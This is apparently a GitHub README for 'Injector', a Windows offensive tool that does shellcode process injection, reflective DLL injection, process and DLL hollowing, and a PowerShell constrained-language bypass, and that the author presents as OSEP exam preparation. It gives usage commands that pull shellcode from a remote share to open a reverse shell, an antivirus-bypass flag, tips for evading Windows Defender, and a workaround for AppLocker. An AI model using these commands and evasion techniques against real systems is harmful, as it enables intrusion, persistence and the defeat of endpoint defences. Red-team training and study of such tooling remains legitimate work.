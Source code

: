 # Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

Note: Working to add DInvoke for EDR bypass as well. Stay tuned :)

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.
- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode i.e AES encrypted and Xor encryted shellcode are now supported. To encrypt the shellcode use Helper.exe in order to maintain consistency.  
- Supports CLM bypass for powershell. Just drop it to a whitelisted folder where you can execute C# binary, for instance at C:\\Windows\\Tasks
- Now comes with support for DLL Hollowing. DLL hollowing is implemented via the dll_hollow.dll! So in case you end up using this mode, make sure the dll and the exe are in same place.

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing
        -m 4     No injection! Give me my damn shell
        -m 5     Powershell session via CLM bypass
        -m 6     DLL hollowing

-TempFile        File location that your current user can read
-shellcode       Use shellcode
-dll     Use dll
-decrypt-xor     Specify Xor decryption for shellcode
         -pass   Specifty the password for Xor decryption
-decrypt-aes     Specify aes decryption for shellcode
         -pass   Specifty the password for aes decryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```
To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell. Presence of bypass flag instructs injector to use some other ways to get reverse shell i.e using some undocumented Win API.

In case you dont wanna use encrypted shellcode, you can also run it simply like below

```
Injector.exe -m=1 -shellcode -location="\\192.x.x.x\share\shellcode.txt"
```
Just change the -m=1 to 2,3,4,6 to run other modes. 

```
Injector.exe -m=5 -TempFile=C:\\Users\\user\\sample.txt
```
This will give you a session where you can execute IEX cradle and get a proper reverse shell hence bypassing CLM.

## Help me with Antivirus?

A specific function called basic_rev in Program.cs of Injector triggers windows defender. It is advised to edit the function and remove the WaitForSingleObject line which will end up making that whole module useless but helps to bypass defender on Windows. Why to use a basic reverse shell mode when advance modes will give you persistence and help evade defender better :)

# Why make it?

Main aim is to help me in OSEP :P

# Powershell 

You can use Invoke-Exe.ps1 to execute Injector from powershell in case there is applocker restriction on .NET execution.
```
Invoke-Exe -loc C:\Users\john\injector.exe
```
Note : Use the Debug build of Injector to load it Reflectivly in powershell.

# Talk to me?

Shoot me a DM on twitter @gh0st_R1d3r_0x9 to talk abt more interesting indeas/modules that can make this more amazing!

Current module in pipeline
- Phantom DLL Injection

# Acknowledgements

[Ired Team](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
